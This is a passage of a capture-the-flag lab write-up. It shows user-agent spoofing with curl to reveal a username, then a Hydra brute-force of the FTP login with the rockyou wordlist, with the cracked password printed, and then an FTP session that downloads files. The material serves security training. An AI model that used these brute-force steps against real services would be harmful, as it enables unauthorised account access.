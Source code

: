 ~~~
$ curl -A "C" -L http://10.10.56.93/
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
~~~

Answer: `chris`

## [Task 3] Hash cracking and brute-force

### 3.1 FTP password

*Hint: Hail hydra!*

Let's crack chris' FTP account with Hydra:

~~~
$ hydra -l chris -P /data/src/wordlists/rockyou.txt 10.10.56.93 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-08 19:00:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.56.93:21/
[STATUS] 219.00 tries/min, 219 tries in 00:01h, 14344179 to do in 1091:39h, 16 active
[21][ftp] host: 10.10.56.93   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-08 19:01:34
~~~

Now, let's connect with password `crystal` and get the files:

~~~
$ ftp 10.10.56.93
Connected to 10.10.56.93 (10.10.56.93).
220 (vsFTPd 3.0.3)
Name (10.10.56.93:unknown): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10.10.56.93,204,100).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
227 Entering Passive Mode (10.10.56.93,38,234).
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.0552 secs (3.93 Kbytes/sec)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
227 Entering Passive Mode (10.10.56.93,217,163).
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
~~~
